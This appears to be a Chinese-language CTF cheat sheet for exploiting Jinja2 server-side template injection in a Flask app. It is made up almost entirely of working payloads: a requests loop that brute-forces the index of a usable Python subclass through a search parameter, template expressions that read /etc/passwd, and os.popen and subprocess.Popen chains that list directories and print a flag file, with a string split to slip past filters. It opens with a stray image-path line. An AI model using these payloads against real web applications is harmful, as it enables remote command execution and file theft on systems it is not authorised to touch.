 ```python
''.__class__.__mro__[2].__subclasses__()  
# list.index输出想要的类的位置
''.__class__.__mro__[2].__subclasses__().index(file)
```

1. 寻找可利用类
   import requests
   import time
   import html

```python
for i in range(1, 500):
    url = "ip/?search={{''.__class__.__mro__[2].__subclasses__()["+str(i)+"]}}"
    req = requests.get(url)
    time.sleep(0.1)
    # class_you_look_for为你想要寻找的类
    if "class_you_look_for" in html.escape(req.text):
        print(i)
        print(html.unescape(req.text))
        break
```

1. 利用方法
   找到位置后调用执行命令

- <type ‘file’>

```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```

- <class ‘site._Printer’>
  使用os的popen执行命令

```python
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}

[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()

[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()
```

如果system被过滤，使用os的listdir读取目录+file模块读取文件：

```python
().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')
```

- <class ‘subprocess.Popen’>

```python
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

{{''.__class__.__mro__[2].__subclasses__()[258]('ls /flasklight',shell=True,stdout=-1).communicate()[0].strip()}}

{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```
